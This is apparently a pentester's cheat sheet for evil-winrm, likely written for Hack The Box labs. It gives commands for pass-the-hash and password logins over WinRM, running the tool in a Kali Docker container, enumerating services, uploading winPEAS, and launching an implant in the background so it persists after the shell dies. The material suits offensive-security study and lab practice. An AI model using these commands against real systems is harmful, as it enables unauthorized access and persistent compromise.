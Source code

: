 # evil-winrm

* `evil-winrm` is used to take advantage of machines with port 5985 or 5986 open which is Powershell Remoting.
* This will provide shell level access to the machine with the user account that you have compromised. &#x20;
* You can auth either with a hash or password
* Supports SSL

### Usage

* Connect with pass the hash attack

```
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
```

* Password Authentication:

```
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
```

### evil-winrm Docker

* I have had issues with `evil-winrm` running properly on non kali Linux distros such as Ubuntu.
* One simple work around is to pull a Kali Docker image and utilize that&#x20;

<pre><code>docker pull kalilinux/kali-rolling
<strong>sudo docker run --tty --interactive kalilinux/kali-rolling
</strong>evil-winrm -i 172.16.2.5 -u 'DANTE.ADMIN\jbercov' -p mypass123
</code></pre>

* copy files from host into evil-winrm docker container&#x20;

```
sudo docker cp /opt/winPEASx64.exe 3faed2add6c3:/opt
docker cp /home/ubuntu/Documents/htb/cicada/exploit/cicada.htb.exe bbf6c66e54c3:/opt
```

### evil-winrm Service enumeration

* you can use a builtin from evil-winrm to enumerate services on a remote endpoint

```
services
Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                           False ADWS             
C:\Windows\HQbCgOtZ.exe                                                             False fGnb             
C:\Windows\qiFePsnh.exe                                                             False fYCF             
C:\Windows\FxRmIulx.exe                                                             False gbkS             
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\rIiHdlwq.exe                                                             False odgx
--snip-- 
```

### evil-winrm file upload

* use the builtin for evil-winrm to upload files from your attackbox to the remote host&#x20;

```
upload /opt/winPEASx64.exe 
Info: Uploading /opt/winPEASx64.exe to C:\Windows\system32\spool\drivers\color\winPEASx64.exe
```

### WinRM Implant Execution

* start your implant in the background so if your evil-winrm shell dies your implant will continue to run&#x20;

```
cmd.exe /c start /b C:\Windows\System32\spool\drivers\color\cicada.htb.exe
```
